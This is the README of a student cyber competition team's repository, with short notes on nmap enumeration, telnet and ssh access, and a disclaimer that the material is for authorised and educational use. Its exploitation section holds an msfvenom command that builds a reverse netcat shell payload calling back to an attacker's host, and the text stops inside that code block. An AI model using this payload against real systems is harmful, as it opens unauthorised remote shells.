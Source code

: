 # A Public Repository for the UAT Cyber Competition Team
The folders represent various scripts and resources applicable to individual members or subject areas to support Blue or Red team operations.  The guidance below is for quick reference and will continue to evolve as we develop use-cases.
> ### Using any of the resources within this repository without proper permission by the target network owner will likely be illegal.  These resources are for educational purposes only. 

## RECONNAISSANCE
### Enumeration (Active Recon)
#### Network Enumeration
The first step in evaluating a target network is to identify open ports and active services.

NMAP Commands\
nmap [flag(s)] [target/file]



References:\
[Try Hack Me NMAP room](https://tryhackme.com/r/room/furthernmap)\
[NMAP Cheat Sheet All Commands & Flags Nathan House](https://www.stationx.net/nmap-cheat-sheet/)


## ACCESS

Telnet Commands:\
telnet [ip] [port]

SSH Commands:\
ssh username@IP

## EXPLOITATION

Reverse Shell:\
Obtain your lhost from the terminal using ifconfig or ip a

``` msfvenom -p cmd/unix/reverse_netcat lhost=xx.xx.xx.xx lport=4444 R
